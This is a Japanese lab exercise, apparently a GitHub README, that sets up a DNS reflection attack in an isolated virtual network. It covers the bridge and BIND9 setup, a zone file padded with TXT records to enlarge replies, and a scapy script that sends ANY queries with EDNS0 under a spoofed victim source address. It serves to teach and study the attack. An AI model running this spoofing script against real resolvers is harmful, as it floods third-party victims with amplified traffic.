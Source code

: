 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート５３番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側で下記のスクリプトをrootで実行します。

```python
from scapy.all import *
import random
import time

def send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, qname, count=5, interval=1.0):
    print(f"[+] Sending {count} spoofed DNS ANY queries with EDNS0 for '{qname}' from {victim_ip} to {dns_server_ip}")

    for i in range(count):
        transaction_id = random.randint(1, 65535) 
        sport=53
        # IP + UDPヘッダ
        ip = IP(src=victim_ip, dst=dns_server_ip)
        udp = UDP(sport=sport, dport=53)

        # DNSクエリ + EDNS0（OPT）レコード付き
        dns = DNS(
            id=transaction_id,
            rd=1,
            qd=DNSQR(qname=qname, qtype=255),  # qtype=255 → ANY
            ar=DNSRROPT(rclass=4096, rdlen=0)
        )

        pkt = ip / udp / dns

        print(f"[*] Sending packet {i+1}/{count} (TXID=0x{transaction_id:04x}, SPORT={sport})")
        send(pkt, verbose=0)
        time.sleep(interval)

# ====== 実行パラメータ ======
victim_ip = "192.168.11.100"       # 偽装された送信元IP（被害者）
dns_server_ip = "192.168.11.53"    # DNSサーバIP（攻撃対象）
domain = "takkesan.com"            # 問い合わせ対象ドメイン
send_count = 5                     # クエリ送信回数
send_interval = 0.5                # 送信間隔（秒）

# ====== 実行 ======
send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, domain, count=send_count, interval=send_interval)
```